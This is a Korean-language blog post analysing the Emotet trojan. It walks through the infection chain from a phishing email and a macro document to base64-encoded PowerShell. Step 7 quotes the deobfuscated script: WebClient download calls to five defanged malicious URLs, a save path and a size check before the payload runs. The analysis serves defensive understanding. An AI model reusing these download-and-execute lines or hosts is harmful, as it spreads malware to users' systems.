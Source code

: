 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet 악성코드 분석"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "트로이 목마", "PowerShell", "악성코드", "사이버 보안"]
---
```


## Emotet(이모텟)?

- 주로 이메일을 통해 확산되는 트로이 목마
- 합법적인 이메일처럼 보이도록 가장하여 사용자가 악성 파일을 클릭하도록 유도
- 트로이 목마를 업데이트하고 기본적으로 시스템에 액세스한 다음 운영자가 추가 페이로드를 다운로드할 수 있도록 하는 악성코드 유형인 "로더"로 작동하도록 구성
- 감염된 호스트에서 은행 자격 증명을 훔치거나, 피해자들로부터 돈을 갈취하는 것을 목표로 동작
<br>

<!--more-->

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 실행/분석

### 1. 사회 공학 기법을 이용해 공격 대상에게 메일 발송
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 공격 대상은 의심없이 첨부 파일 다운로드
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. 파일 Open. 매크로 실행을 위해 'Enable Content' 클릭
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64 인코딩된 코드 PowerShell 프로세스로 실행 시도
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShell 명령어에 의해 conhost 실행
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShell 스크립트 코드 실행
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShell 스크립트 코드 분석
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 아래 URL 에서 파일 다운로드
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 아래 경로에 파일 저장
$env:userprofile\284.exe

3) 23931 bytes 이상이면 실행
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. 사용자 폴더에 파일 생성
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [참조]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet


